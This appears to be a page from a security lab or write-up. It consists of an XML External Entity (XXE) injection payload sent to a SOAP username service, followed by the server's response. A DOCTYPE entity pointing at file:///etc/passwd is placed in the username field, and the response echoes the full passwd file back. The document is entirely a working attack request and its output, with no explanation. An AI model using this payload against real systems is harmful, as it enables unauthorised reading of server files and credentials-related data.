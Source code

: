 ```bash
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">

   <soapenv:Header/>

   <soapenv:Body>

      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">

         <username xsi:type="xsd:string">&exploit;</username>

      </urn:Username>

   </soapenv:Body>

</soapenv:Envelope> 
```
- output 

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/xml; charset=utf-8
Content-Length: 1407
ETag: W/"57f-+s2JBRIrBR54b80IUIKHwmgU738"
Date: Sun, 11 May 2025 09:41:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
  <soapenv:Header/>
  <soapenv:Body>
    <urn:UsernameResponse soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <username xsi:type="xsd:string">User Not Found:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
pn:x:1000:1000::/home/pn:/bin/bash
</username>
    </urn:UsernameResponse>
  </soapenv:Body>
</soapenv:Envelope> 
```
